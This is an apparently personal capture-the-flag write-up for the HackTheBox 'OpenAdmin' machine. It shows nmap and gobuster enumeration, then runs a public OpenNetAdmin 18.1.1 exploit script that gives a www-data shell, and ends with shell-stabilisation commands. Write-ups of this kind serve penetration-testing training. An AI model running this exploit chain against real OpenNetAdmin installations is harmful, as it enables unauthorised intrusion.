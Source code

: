 ### OpenAdmin HackTheBox

### Difficulty = Easy

### IP Address = 10.10.10.171 

Nmap Scan:

```
└─$ nmap -sCV -A 10.10.10.171 -p22,80 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-15 01:41 WAT
Nmap scan report for 10.10.10.171
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.16 seconds
```

Checking the web server shows the apache default page
![image](https://user-images.githubusercontent.com/113513376/218898466-9989e35e-e4a3-423c-89b2-c9e51d75f87b.png)

I'll run gobuster 

```
└─$ gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirb/common.txt                
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/02/15 02:04:07 Starting gobuster in directory enumeration mode
===============================================================
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/02/15 02:05:55 Finished
===============================================================

```

We see it got two directories

Checking /artwork shows a static page
![image](https://user-images.githubusercontent.com/113513376/218898681-41b1578a-6f16-41a5-be8a-f6376f8e69b6.png)

I'll check /music
![image](https://user-images.githubusercontent.com/113513376/218898744-6ec20a93-509a-4839-8017-a70617b8dd03.png)

After looking around the music web page i got that clicking the admin button leads to /ona
![image](https://user-images.githubusercontent.com/113513376/218898879-0cba5f25-268c-4a3e-8a06-604a9288f9ec.png)

From this we know that this is an instance of OpenNetAdmin and its version is v18.1.1

Searching for exploit leads here [Exploit](https://www.exploit-db.com/exploits/47691)

Running it works

```
└─$ ./exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ 
```

Now i'll get a more stable shell
![image](https://user-images.githubusercontent.com/113513376/218899230-7c33f52b-c4a9-43e0-bd59-994e466c529f.png)

Stabilizing the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL +Z
stty raw -echo;fg
reset
```




